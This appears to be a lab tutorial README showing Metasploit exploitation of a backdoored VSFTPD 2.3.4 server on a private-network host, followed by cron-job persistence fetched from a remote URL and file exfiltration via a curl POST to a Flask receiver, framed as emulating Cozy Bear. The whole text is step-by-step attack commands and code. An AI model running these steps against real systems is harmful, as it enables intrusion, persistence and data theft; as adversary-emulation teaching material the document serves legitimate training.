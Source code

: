 ## Metasplot Demo

In this tutorial, we will demonstrate how to use Metasploit to exploit a vulnerable VSFTPD server. The steps outlined below correspond to the commands provided, and we'll go through each one in order.

### 1. Scan the target with nmap:

Before starting the exploit, it's essential to gather information about the target. Use nmap to scan the target IP (192.168.101.54) for open ports and services:

```
nmap 192.168.101.54
```

If the scan results show that port 21 (FTP) is open, you can proceed to the next step.

### 2. Connect to the FTP service using netcat:

Use the following command to connect to the target IP's FTP service and check if it is running a vulnerable version of VSFTPD:

```
nc 192.168.101.54 21
```

If you see a response indicating that VSFTPD 2.3.4 is running, continue to the next step.

### 3. Start Metasploit:

Launch the Metasploit console by running the following command:

```
msfconsole
```

### 4. Search for the VSFTPD exploit:

In the Metasploit console, search for the VSFTPD exploit by running:

```
search vsftp
```

The search results should show the exploit/unix/ftp/vsftpd_234_backdoor module.

### 5. Use the exploit module:

```
use exploit/unix/ftp/vsftpd_234_backdoor
```

### 6. List available payloads:

The command you provided, set payload 0, is incorrect. Instead, use the following command to list available payloads:

```
show payloads
```

Choose a payload from the list, such as cmd/unix/interact.

### 7. Set the payload:

```
set payload cmd/unix/interact
```

### 8. Show and set module options:

Use the following commands to show the module options, set the RHOSTS option, and verify the settings:

```
show options
```
```
set RHOSTS 192.168.101.54
```
```
show options
```

### 9. Run the exploit:

```
exploit
```

If the exploit is successful, you should receive a command shell on the target system.

### 10. Check the user context:

Run the following command to see the user context of the shell:

```
whoami
```

This will show the username of the account that the shell is running under.

### 11. Now we will demonstrate how Cozy Bear employs stealthy persistence techniques to maintain access to compromised systems. We will be focusing on creating a cron job that will execute a benign script at specified intervals or upon system startup.

Create a new file called create_cronjob.sh and copy the script content into it. Save the file and make it executable using chmod +x create_cronjob.sh.

```
http://raw.githubusercontent.com/jamesvthompson/demo/main/create_cronjob.sh
```
```
chmod +x create_cronjob.sh
```

Run the script with ./create_cronjob.sh. This will create the benign script (benign_cronjob.sh), make it executable, and set up a cron job to run it every minute.

```
sh create_cronjob.sh
```

Monitor the /tmp/cronjob.log file for updates by running cat /tmp/cronjob.log.

```
cat /tmp/cronjob.log
```
### 12. Now we will demonstrate data exfiltration from a compromised Linux system, simulating how Cozy Bear could extract sensitive information after gaining access to a target. 

Data Exfiltration with HTTP POST Request

Set up a listener on the remote machine to receive the file. You can use a simple Python HTTP server for this purpose. Install Flask (pip install flask) and create a Python script called receiver.py:

```
from flask import Flask, request

app = Flask(__name__)

@app.route('/upload', methods=['POST'])
def upload():
    with open('received_data.txt', 'wb') as f:
        f.write(request.data)
    return "Data received and saved", 200

if __name__ == '__main__':
    app.run(host='192.168.101.51', port=8080)
```

This script creates a simple HTTP server that listens for POST requests on the /upload endpoint and saves the received data to a file called received_data.txt.

Run the script on the remote machine:

```
python receiver.py
```

On the target machine, use curl to send an HTTP POST request with the file contents:

```
curl -X POST -H "Content-Type: application/octet-stream" --data-binary "@/tmp/cronjob.log" http://192.168.101.51:8080/upload
```

This will send the file as a binary stream in an HTTP POST request to the remote server, which will save the received data to a file. Note that this method is less secure than using scp, as the data is transmitted unencrypted.

